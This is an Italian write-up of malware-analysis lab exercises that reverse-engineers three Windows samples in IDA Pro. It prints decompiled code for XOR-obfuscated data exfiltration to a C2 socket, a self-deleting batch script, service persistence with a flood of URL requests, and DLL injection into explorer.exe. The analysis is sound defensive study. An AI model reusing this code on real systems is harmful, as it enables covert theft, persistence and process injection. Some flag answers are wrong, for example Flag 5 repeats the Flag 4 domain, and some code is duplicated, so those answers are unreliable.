# 7. Windows Malware
In questa esercitazione vengono analizzati diversi malware, al fine di comprendere l'utilizzo di software per il reverse engineering come IDA Pro

## 7.1 Lab05-01.dll

Analisi del primo malware 
### 7.1.1 flags

#### Flag 1: Indirizzo dllMain
<u> Risposta: </u> **1000D02E**

<p align="center">
  
</p>

#### Flag 2: Indirizzo locazione inport `gethostbyname`

<u> Risposta: </u> **100163CC**

<p align="center">
  
</p>

#### Flag 3: numero di funzioni che chiamano `gethostbyname`

<u> Risposta: </u> **9**

<p align="center">
  
</p>

#### Flag 4: Nome del dominio DNS 

<u> Risposta: </u> ***pics.praticalmalwareanalysis.com*** 

<p align="center">
  
</p>

#### Flag 5: numero di parametri e variabili locali per subroutine `0x10001656`

<u> Risposta: </u> ***pics.praticalmalwareanalysis.com*** 

<p align="center">
  
</p>

#### Flag 6: Messaggio 

<u> Risposta: </u> 
```text 
Hi,Master [%d/%d/%d %d:%d:%d]
WelCome Back...Are You Enjoying Today?

Machine UpTime  [%-.2d Days %-.2d Hours %-.2d Minutes %-.2d Seconds]
Machine IdleTime [%-.2d Days %-.2d Hours %-.2d Minutes %-.2d Seconds]

Encrypt Magic Number For This Remote Shell Session [0x%02x]
```

<p align="center">
  
</p>

#### Flag 7: Quale OS innesca il malware? 

<u> Risposta: </u> **Windows**

<p align="center">
  
</p>

<p align="center">
  
</p>

### 7.1.2 Domande:

#### Q1: cosa succede se il paragone con la stringa `robotwork` ha successo?


robotwork è verosimilmente un comando passato tramite un terminale avviato sulla macchina vittima, siccome la funzione è sostanzialmente un parser che confronta i caratteri
<p align="center">
  
</p>

in caso di jnz, il confronto avviene con altri comandi. In questo caso, se il comando è effettivamente `robotwork`, viene invocata una subroutine

<p align="center">
  
</p>

la subroutine collocata a `0x10052A2` permette di monitorare lo stato di attività della macchina vittima e inviarli all'attaccante. Vengono effettuate in breve queste azioni

1. Viene creato un buffer dove allocare i dati
```C

  char Buffer[1021];
  BYTE Data[512];
    memset(Buffer, 0, sizeof(Buffer));
  memset(Data, 0, sizeof(Data));
```
2. Ottiene l'accesso in lettura alla chiave del registro `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion`(in caso di fallimento, viene chiusa la funzione)
```C
  if ( RegOpenKeyExA(HKEY_LOCAL_MACHINE, aSoftwareMicros, 0, 0xF003Fu, &phkResult) )
    return RegCloseKey(phkResult);
  if ( !RegQueryValueExA(phkResult, aWorktime, 0, &Type, Data, &cbData) )
```
3. Viene analizzato dapprima il parametro *WorkTime*: viene formattato e poi inviato tramite socket
```C
  if ( !RegQueryValueExA(phkResult, aWorktime, 0, &Type, Data, &cbData) )
  {
    v2 = atoi((const char *)Data);
    sprintf(Buffer, "\r\n\r\n[Robot_WorkTime :] %d\r\n\r\n", v2);
    v3 = strlen(Buffer);
    sub_100038EE(s, (int)Buffer, v3);
  }
```
WorkTime è un valore personalizzato (probabilmente creato dal malware stesso) sotto:
`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WorkTime`
4. Viene analizzato poi il parametro *Worktimes* allo stesso modo 
```C
 memset(Data, 0, sizeof(Data));
  if ( !RegQueryValueExA(phkResult, aWorktimes, 0, &Type, Data, &cbData) )
  {
    v4 = atoi((const char *)Data);
    sprintf(Buffer, "\r\n\r\n[Robot_WorkTimes:] %d\r\n\r\n", v4);
    v5 = strlen(Buffer);
    sub_100038EE(s, (int)Buffer, v5);
  }
```
5. viene infine chiusa la chiave di registro
` RegCloseKey(phkResult);`

 La subroutine `0x100038EE` è il codice per offuscare i dati e inviarli a un server remoto 

 ```C
int __cdecl sub_100038EE(SOCKET s, int a2, int len)
{
  int v3; // edi
  char *v4; // eax
  int v5; // edx
  char *v6; // esi
  char *v7; // ecx
  int v8; // eax
  int v9; // eax
  int v10; // edi

  v3 = len;
  v4 = (char *)malloc(len + 1);
  v5 = 0;
  v6 = v4;
  if ( len > 0 )
  {
    v7 = v4;
    v8 = a2 - (_DWORD)v4;
    v5 = len;
    do
    {
      *v7 = dword_1008E5D0 + v7[v8];
      ++v7;
      --len;
    }
    while ( len );
  }
  v6[v5] = 0;
  v9 = send(s, v6, v3, 0);
  v10 = -1;
  if ( v9 != -1 )
    v10 = v9;
  free(v6);
  return v10;
}int __cdecl sub_100038EE(SOCKET s, int a2, int len)
{
  int v3; // edi
  char *v4; // eax
  int v5; // edx
  char *v6; // esi
  char *v7; // ecx
  int v8; // eax
  int v9; // eax
  int v10; // edi

  v3 = len;
  v4 = (char *)malloc(len + 1);
  v5 = 0;
  v6 = v4;
  if ( len > 0 )
  {
    v7 = v4;
    v8 = a2 - (_DWORD)v4;
    v5 = len;
    do
    {
      *v7 = dword_1008E5D0 + v7[v8];
      ++v7;
      --len;
    }
    while ( len );
  }
  v6[v5] = 0;
  v9 = send(s, v6, v3, 0);
  v10 = -1;
  if ( v9 != -1 )
    v10 = v9;
  free(v6);
  return v10;
}

 ```

 #### Q2: Cosa fa l' `export PSLIST`? 

 La funzione export pslist stampa tutti i processi attualmente in esecuzione all'interno della macchina. Se viene caricato un processo specifico tramite la stringa in ingresso, viene stampato solamente quello.

 ```C
int __stdcall PSLIST(int a1, int a2, char *Str, int a4)
{
  int result; // eax

  dword_1008E5BC = 1;
  result = sub_100036C3();
  if ( result )
  {
    if ( strlen(Str) )
      result = sub_1000664C(0, Str);
    else
      result = sub_10006518(0);
  }
  dword_1008E5BC = 0;
  return result;

 ```

 #### Q3: Quali funzioni API vengono invocate all'interno della subroutine `0x10004E79`? Come è possibile rinominare la funzione?

 La funzione invoca la chiamata API `GetSystemDefaultLangID`, che fornisce la lingua di sistema, e la invia a un server remoto tramite socket. 
 Basandosi solo sull'API, è possibile chiamare la funzione `GetVictimLanguage`


 #### Q4: Quali funzioni API Windows chiama direttamente `DllMain`? Quali invece a profondità 2?

Viene usata direttamente la chiamata API `CreateThread`. 

La funzione `CreateThread` invoca poi altre 3 subroutine
- **`0x0001074`** e **`0x10001365`**: 5 API( `WinExec`, `Sleep`, `gethostbyname`, `inet_addr`, `inet_ntoa`)
- **`0x10001656`** 20 API(`WSAStartup`, `WSAGetLastError`, `socket`, `gethostbyname`, `inet_addr`, `inet_ntoa`, `ntohs`, `connect`, `send`, `recv`, `select`, `closesocket`, `Sleep`, `LoadLibraryA`, `GetProcAddress`, `CreateThread`, `CloseHandle`, `FreeLibrary`, `ExitThread`)

#### Q5: Nella chiamata `Sleep` in `0x10001358`, per quanto tempo il programma va in riposo prima di riprendere l'esecuzione? 

```C
      v14 = atoi(off_10019020[0] + 13);
      Sleep(1000 * v14); 
```

Nella Sleep viene viene preso in ingresso il valore collocato in `off_10019020`
che è la stringa `[This is CTI]30`. In altre parole, viene presa la cifra dopo la parentesi quadra. Pertanto, la sleep dura 30 secondi

#### Q6-7: A `0x10001701` c'è una chiamata a `socket`, quali sono i parametri?

la chiamata a Socket prende in ingresso i parametri(*af*, *type*, *protocol*); in questo caso la chiamata usa i valori (2, 1, 6): ovvero sia 

- *af*: Viene usata uno standard IPv4(`AF_INET`)
- *type* la tipologia è `SOCK_STREAM` per TCP(flussi byte sequenziati)
- *protocol* Il protocollo è TCP `IPPROTO_TCP`

Viene utilizzata una socket TCP IPv4 standard per connettersi al server C2


#### Q8: cerca l'istruzione IN(`0xED`), usata insieme alla stringa VMXh per effettuare la detection di macchine virtuali. Viene utilizzata? Se sì, ci sono altri casi di VM detection? 

effettuando la ricerca con `alt+b` di tutte le stringhe

<p align="center">
  
</p>

troviamo che l'istruzione IN viene utilizzata 

<p align="center">
  
</p>

Questa istruzione fa parte della subroutine `0x10006196`. 

Viene usata da 3 funzioni principalmente : `InstallRT`, `InstallSB`, `InstallSA`, ovvero tre forme differenti di installazione.

Tuttavia, ambetre hanno la seguente funzione 

```C
  if ( atoi(off_10019034[0] + 13) && ((unsigned __int8)sub_10006119() || sub_10006196()) )
  {
    sub_10003592(byte_1008E5F0, v5);
    sub_10003592(aFoundVirtualMa, v6);
    return sub_10005567();
  }
```

Questa funzione permette di individuare con maggior dettaglio la presenza di un'installazione di una macchina virtuale, dopodiché avviene che

- Nella `sub_10003592` viene registrato che il malware sta per essere installato all'interno di una macchina virtuale
```C
  va_start(va, Format);
  if ( atoi(off_10019028[0] + 13) )
  {
    vsnprintf(Buffer, 0x400u, Format, va);
    StdHandle = GetStdHandle(0xFFFFFFF5);
    if ( StdHandle != (HANDLE)-1 )
    {
      v2 = strlen(Buffer);
      WriteFile(StdHandle, Buffer, v2, &NumberOfBytesWritten, 0);
      WriteFile(StdHandle, ::Buffer, 2u, &NumberOfBytesWritten, 0);
    }
    v3 = fopen(FileName, aA);
    if ( v3 )
    {
      if ( strlen(Buffer) )
      {
        fprintf(v3, "\n%s", Buffer);
      }
      else
      {
        v5 = strtime(v8);
        v4 = strdate(v7);
        fprintf(v3, "\n\n\n[%s %s]", v4, v5);
      }
      fclose(v3);
    }
    OutputDebugStringA(Buffer);
  }
}
```
- Nella `sub_10005567`, il malware si auto-cancella: nasconde i comandi e rimuove gli attributi, e fintanto che non ci sono più file da cancellare, allora il malware cancellerà se stesso
```C
  memset(Filename, 0, sizeof(Filename));
  memset(Buffer, 0, sizeof(Buffer));
  v7 = 0;
  v8 = 0;
  v4 = 0;
  v5 = 0;
  GetModuleFileNameA(hModule, Filename, 0x104u);
  sprintf(Buffer, aVmselfdelBat);
  v0 = fopen(Buffer, aW);
  v1 = v0;
  if ( v0 )
  {
    fprintf(v0, "@echo off\r\n");
    fprintf(v1, ":selfkill\r\n");
    fprintf(v1, "attrib -a -r -s -h \"%s\"\r\n", Filename);
    fprintf(v1, "del \"%s\"\r\n", Filename);
    fprintf(v1, "if exist \"%s\" goto selfkill\r\n", Filename);
    fprintf(v1, "del %%0\r\n");
  }
  fclose(v1);
  return WinExec(Buffer, 0);
```

#### Q9-12: `0x1001D988` ed esecuzione dello script

Nell'indirizzo iene raffigurato una stringa offuscata
```
........-1::'u<&
u!=<&u746>1::'yu
&!'<;2u106:101u3
:'u.'46!<649u.49
"4'0u.;49,&<&u.4
7uo|dgfa........
```
Viene eseguito lo script indicato. Questo script altro non è che un decodificatore XOR mediante la chiave `0x55`

Una volta eseguito lo script, questo effettua la traduzione della stringa, ottenendo così il risultato finale

<p align="center">
  
</p>

## 7.2 Lab07-01.exe

Analizziamo lo pseudocodice del malware

```C 
int sub_401040()
{
  SC_HANDLE v0; // esi
  HANDLE WaitableTimerA; // esi
  int v2; // esi
  SYSTEMTIME SystemTime; // [esp+0h] [ebp-400h] BYREF
  struct _FILETIME FileTime; // [esp+10h] [ebp-3F0h] BYREF
  CHAR Filename[1000]; // [esp+18h] [ebp-3E8h] BYREF

  if ( OpenMutexA(0x1F0001u, 0, Name) )
    ExitProcess(0);
  CreateMutexA(0, 0, Name);
  v0 = OpenSCManagerA(0, 0, 3u);
  GetCurrentProcess();
  GetModuleFileNameA(0, Filename, 0x3E8u);
  CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, Filename, 0, 0, 0, 0, 0);
  memset(&SystemTime.wMonth, 0, 14);
  SystemTime.wYear = 2100;
  SystemTimeToFileTime(&SystemTime, &FileTime);
  WaitableTimerA = CreateWaitableTimerA(0, 0, 0);
  SetWaitableTimer(WaitableTimerA, (const LARGE_INTEGER *)&FileTime, 0, 0, 0, 0);
  if ( !WaitForSingleObject(WaitableTimerA, 0xFFFFFFFF) )
  {
    v2 = 20;
    do
    {
      CreateThread(0, 0, StartAddress, 0, 0, 0);
      --v2;
    }
    while ( v2 );
  }
  Sleep(0xFFFFFFFF);
  return 0;
}
```

### Q1: Persistence

La persistenza viene garantita dalla funzione `CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, Filename, 0, 0, 0, 0, 0);`.

I parametri indicano

- dwServiceType = 2 → SERVICE_FILE_SYSTEM_DRIVER (driver!)

- dwStartType = 0x10 → SERVICE_AUTO_START (avvio automatico)

- dwErrorControl = 2 → SERVICE_ERROR_SEVERE

### Q2 Mutex

In questo caso, il malware usa un mutex per evitare esecuzioni multiple dello stesso programma, al fine di prevenire eventuali auto-reinfezioni

### Q3 Signature 

Le signature sono contenute all'interno di una subroutine, che evidenziano

- Browser utilizzato: <u>Internet Explorer 8.0</u>
- Indirizzo di rete: <u>http://www.malwareanalysisbook.com</u>

Questo ci permette di comprendere che l'host usa Internet Explorer per inviare dati all'indirizzo URL specificato

Una signature network-based può essere l'uso delle chiamate `InternetOpenA`(Inizializza l'uso di un'applicazione delle funzioni WinINet) e la chiamata `InternetOpenUrlA`, andando a generare traffico di rete nell'url specificato in precedenza

<p align="center">
  
</p>

### Q4: Scopo e termine del programma

Il programma ha come scopo quello di 

- Effettuare un installazione stealth e persistente
- Attendere in maniera prolungata fino al suo innesco
- Non appena termina l'attesa(`!WaitForSingleObject(WaitableTimerA, 0xFFFFFFFF)` è un timer impostato ad aspettare per molto tempo), vengono creati 20 thread che effettuano richieste incessanti verso un sito web. Il thread ha la seguente struttura di codice 
```C
void __stdcall __noreturn StartAddress(LPVOID lpThreadParameter)
{
  void *i; // esi

  for ( i = InternetOpenA(szAgent, 1u, 0, 0, 0); ; InternetOpenUrlA(i, szUrl, 0, 0, 0x80000000, 0) )
    ;
}
```
- Il programma principale termina dopo una sleep, tuttavia i thread continueranno la loro esecuzione


## 7.2 Lab12-01.exe/Lab12-01.dll

### Q1: Lancio dell'eseguibile

Il lancio dell'eseguibile consiste in un process injection che porta all'apertura di un pop_up.

Gli indizi di questa azione vengono trovati all'interno di dependency walker, andando ad analizzare il file eseguibile. 

- **File Eseguibile**: Possiamo notare che vengono importati `OpenProcess`, `WriteProcessMemory`, `VirtualAllocEx` e `CreateRemoteThread`, tutte azioni che portano a pensare che sia avvenuta un iniezione di codice 

<p align="center">
  
</p>

- **Binario iniettato**: Viene chiamato `LoadLibrary` forzando il caricamento della DLL malevola. Questa poi porta a far aprire delle finestre di messaggio: infatti il DLL importa in user32 la chiamata MessageBox.

<p align="center">
  
</p>
<p align="center">
  
</p>

### Q2: Processo iniettato

Analizzando il codice all'interno del disassemblatore, osserviamo che a un certo punto della routine viene effettuato un riferimento al processo `explorer.exe`, ovvero sia il processo a cui è stato iniettato il codice malevolo. 

<p align="center">
  
</p>


### Q3: Terminare l'iniezione

Simuliamo l'iniezione, usando BinText come tramite e applichiamo il binario tramite Xenos

<p align="center">
  
</p>

Possiamo usare process explorer per analizzare in dettaglio l'avvenuta iniezione sul processo explorer

<p align="center">
  
</p>

Per far terminare l'esecuzione dei pop-up, è stato sufficiente riavviare il processo ed eliminare il binario malevolo. 

### Q4: Scopo del malware

Analizzando lo pseudocodice del malware

```C
//Stem1 
  LibraryA = LoadLibraryA(LibFileName);
  EnumProcessModules = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(LibraryA, ProcName);
  v4 = LoadLibraryA(LibFileName);
  GetModuleBaseNameA = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(v4, aGetmodulebasen);
  v5 = LoadLibraryA(LibFileName);
  EnumProcesses = (int (__stdcall *)(_DWORD, _DWORD, _DWORD))GetProcAddress(v5, aEnumprocesses);
  //Step 2
  GetCurrentDirectoryA(0x104u, Buffer);
  lstrcatA(Buffer, String2);
  lstrcatA(Buffer, aLab1201Dll);

  //Step 3
  if ( !EnumProcesses(dwProcessId, 4096, &v14) )
    return 1;

//Step 4
  v7 = v14 >> 2;
  for ( i = 0; i < v7; ++i )
  {
    hProcess = 0;
    if ( dwProcessId[i] )
      v17 = sub_401000(dwProcessId[i]);
    if ( v17 == 1 )
    {
      hProcess = OpenProcess(0x43Au, 0, dwProcessId[i]);
      if ( hProcess == (HANDLE)-1 )
        return -1;
      i = 2000;
    }
  }

  //Step 5
  lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x104u, 0x3000u, 4u);
  if ( !lpBaseAddress )
    return -1;
  WriteProcessMemory(hProcess, lpBaseAddress, Buffer, 0x104u, 0);
  hModule = GetModuleHandleA(ModuleName);
  lpStartAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(hModule, aLoadlibrarya);
  if ( CreateRemoteThread(hProcess, 0, 0, lpStartAddress, lpBaseAddress, 0, 0) )
    return 0;
  else
    return -1;
```

Osserviamo che il malware opera in 5 fasi:

1. Carica dinamicamente `LibFileName`, che risulta essere `'psapi.dll`, ovvero l'API per l'identificazione dei processi.
2. Si costruisce il percorso del binario, identificando la cartella attuale
3. Avviene l'effettiva enumerazione dei processi
4. Ottenuti i processi enumerati, viene invocata la subroutine analizzata in Q2, per trovare il binario explorer.exe
5. Avviene l'iniezione vera e propria: viene allocata la memoria nel processo target con `VirtualAllocEx`, viene scritto il percorso nella memoria allocata, viene preso l'indirizzo di LoadLibraryA, caricando il modulo `kernel32.dll`, e infine viene creato il thread remoto per caricare la dll